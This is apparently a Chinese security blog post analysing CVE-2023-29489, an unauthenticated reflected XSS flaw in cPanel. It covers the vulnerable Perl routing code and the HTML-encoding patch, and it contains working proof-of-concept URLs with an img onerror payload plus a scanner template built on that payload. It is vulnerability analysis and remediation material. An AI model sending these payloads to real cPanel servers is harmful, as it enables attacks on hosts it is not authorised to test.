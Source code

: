 #  cPanel XSS漏洞分析研究（CVE-2023-29489 ）   
 蚁景网安   2025-02-20 08:31  
  
## 前言  
  
由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者、公众号及平台不为此承担任何责任。  
  
如果文章中的漏洞出现敏感内容产生了部分影响，请及时联系作者，望谅解。  
## 一、漏洞原理  
### 漏洞简述  
  
cPanel 是一套在网页寄存业中最享负盛名的商业软件，是基于于 Linux 和 BSD 系统及以 PHP 开发且性质为闭源软件；提供了足够强大和相当完整的主机管理功能，诸如：Webmail 及多种电邮协议、网页化 FTP 管理、SSH 连线、数据库管理系统、DNS 管理等远端网页式主机管理软件功能。  
  
该漏洞可以无身份验证情况下利用，无论cPanel管理端口2080, 2082, 2083, 2086是否对外开放  
### 漏洞影响范围  
  
**供应商**：cPanel  
  
**产品**：cPanel  
  
**确认受影响版本**：< 11.109.9999.116  
  
**修复版本**：11.109.9999.116, 11.108.0.13, 11.106.0.18, and 11.102.0.31  
### 漏洞分析  
  
本漏洞的漏洞点来自系统中涉及交互的关键变量未进行转义或过滤处理，导致攻击者可以构造恶意代码作为输入进行利用。  
  
Httpd.pm：  
```
elsif (0==rindex( $doc_path,'/cpanelwebcall/',0)){

# First 15 chars are “/cpanelwebcall/”
    _serve_cpanelwebcall(
        $self->get_server_obj(),
substr( $doc_path,15),
);
}
```  
  
上述代码说明任何路径均会被路由到，包括目录后的字符部分。  
  
其中涉及函数_serve_cpanelwebcall：  
```
sub _serve_cpanelwebcall ( $server_obj, $webcall_uri_piece ) {
    require Cpanel::Server::WebCalls;
    my $out = Cpanel::Server::WebCalls::handle($webcall_uri_piece);

    $server_obj->respond_200_ok_text($out);
    
    return;

}
```  
  
其中局部变量out为handle函数的返回值，是参数webcall_uri_piece的处理结果。  
```
sub handle ($request) {

my $id = extract_id_from_request($request);
substr( $request,0,length $id )=q<>;

Cpanel::WebCalls::ID::is_valid($id)ordo{
die _http_invalid_params_err("Invalid webcall ID: $id");
    };
```  
  
handle函数主要先从request提取id，之后根据id情况进行处理  
```
sub _http_invalid_params_err ($why) {
    return Cpanel::Exception::create_raw( 'cpsrvd::BadRequest', $why );
}
```  
  
_http_invalid_params_err函数主要是返回错误信息  
  
进一步分析发现Httpd::ErrorPage下的 message_html变量未做任何处理，可被该漏洞利用  
### 补丁部分  
  
在最新版本cPanel可以看到针对该漏洞进行修复  
  
Cpanel/Server/Handlers/Httpd/ErrorPage.pm：  
```
++ use Cpanel::Encoder::Tiny               (); 

... omitted for brevity ...

++ $var{message_html} = Cpanel::Encoder::Tiny::safe_html_encode_str( $var{message_html} );
```  
## 二、漏洞复现实战  
### 漏洞复现  
  
首先以某个cPanel target为例  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Le067B8OegV52oL5VnDzNsOrXWJFGEn1FM2LWRlY5HqrorNpeicwT1b7CqLkbDyOiaoQ5VjF3XZvhBg/640?wx_fmt=png "null")  
  
cPanel资产  
  
之后根据POC进行复现  
  
**POC**：  
```
http://example.com/cpanelwebcall/<img%20src=x%20onerror="prompt(1)">aaaaaaaaaaaa
http://example.com:2082/cpanelwebcall/<img%20src=x%20onerror="prompt(1)">aaaaaaaaaaaa
http://example.com:2086/cpanelwebcall/<img%20src=x%20onerror="prompt(1)">aaaaaaaaaaaa
```  
  
注：其他端口也有可能存在该漏洞  
```
requests:
  -method:GET
path:
-'{{BaseURL}}/cpanelwebcall/<img%20src=x%20onerror="prompt(1)">aaaaaaaaaaaa'
matchers:
-type:word
words:
- '<img src=x onerror="prompt(1)">'
```  
  
执行POC  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Le067B8OegV52oL5VnDzNsOLqaPk9gibPLrrMPftG8SXDwWsWDCBR8OpYfadmglf2ltBCzw2CsiawGA/640?wx_fmt=png "null")  
  
XSS POC执行情况  
### 漏洞修复  
  
建议更新至版本11.109.9999.116、 11.108.0.13 、11.106.0.18 和 11.102.0.31  
  
启用cPanel 自动更新功能  
## 结束语  
  
本文主要介绍了CVE-2023-29489 cPanel XSS漏洞的原理分析及复现过程，漏洞主要由于涉及交互的关键变量未进行转义或过滤处理，从而造成攻击者可以在无身份验证情况下进行利用。  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6iavic0tIJIoZCwKvUYnFFiaibgSm6mrFp1ZjAg4ITRicicuLN88YodIuqtF4DcUs9sruBa0bFLtX59lQQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
学习  
网安实战技能课程，戳  
“阅读原文“  
  
